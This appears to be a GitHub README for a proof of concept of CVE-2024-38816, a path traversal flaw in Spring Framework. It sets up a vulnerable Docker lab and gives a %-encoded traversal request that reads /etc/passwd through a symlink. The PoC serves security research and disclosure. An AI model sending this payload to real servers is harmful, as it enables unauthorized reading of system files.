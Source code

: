# CVE-2024-38816 Proof of Concept (PoC)

This is a proof of concept for the CVE-2024-38816 vulnerability, demonstrating a path traversal exploit.

## Execution Steps
1. Build the Docker image: (Spring Boot 3.0.13, based on Spring Framework 6.0.3)
   ```
   docker build -t cve-2024-38816-poc .
   ```
2. Run the container and expose port 8080 to the host machine:
   ```
   docker run -d -p 8080:8080 --name cve-2024-38816-poc cve-2024-38816-poc
   ```
3. Run the following command to execute the PoC and confirm the vulnerability:
   ```
   curl http://localhost:8080/static/link/%2e%2e/etc/passwd
   ```

   If the contents of the `/etc/passwd` file are displayed, the vulnerability is confirmed.

## Notes
This PoC was created based on an analysis of the release notes and commit logs. The behavior of the actual vulnerability may differ, so accuracy is not guaranteed. Use at your own risk.

## Considerations
1. The vulnerability was patched in Spring Framework 6.1.13, as confirmed by the [release notes](https://github.com/spring-projects/spring-framework/releases/tag/v6.1.13).

2. Upon reviewing the release notes and related commit logs, I have identified the following two issues as potentially linked to this vulnerability:
   - [Issue #33424](https://github.com/spring-projects/spring-framework/issues/33424): A new option related to symbolic links was added.
     - Related commit: [5d80d75051f395c17f6b9367e267d458585b336d](https://github.com/spring-projects/spring-framework/commit/5d80d75051f395c17f6b9367e267d458585b336d)
   - [Issue #33434](https://github.com/spring-projects/spring-framework/issues/33434): The code for sanitizing %-encoded characters was modified.
     - Related commit: [d86bf8b2056429edf5494456cffcb2b243331c49](https://github.com/spring-projects/spring-framework/commit/d86bf8b2056429edf5494456cffcb2b243331c49)

3. According to the [security advisory](https://spring.io/security/cve-2024-38816), the following conditions likely need to be met for the attack to succeed:
   - `RouterFunctions` is used
   - `FileSystemResource` is used
   - Symbolic links are present
   - %-encoded characters are involved in the attack

## Environment Setup
A Docker environment is used to reproduce the vulnerability.

1. Create `PathTraversalDemoApplication.java` with the following code to set up static file routing using `RouterFunction` and `FileSystemResource`:
    ```
    public RouterFunction<ServerResponse> staticResourceRouter() {
        return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
    }
    ```

2. Add the following command to the Dockerfile to create a symbolic link:
    ```
    RUN ln -s /static /app/static/link
    ```

3. Create a payload that leverages %-encoding to traverse directories through the symbolic link.
   - Path: `/static/link/%2e%2e/etc/passwd`

4. Use the following `curl` command to execute the PoC and verify if the attack is successful:
    ```
    curl http://localhost:8080/static/link/%2e%2e/etc/passwd
    ```
   If the attack is successful, the contents of the `/etc/passwd` file will be displayed.

## Disclaimer
This PoC is provided for educational and security research purposes. Before using this in a real system, ensure the vulnerability has been fixed and you have proper authorization. The author takes no responsibility for any misuse of this code.
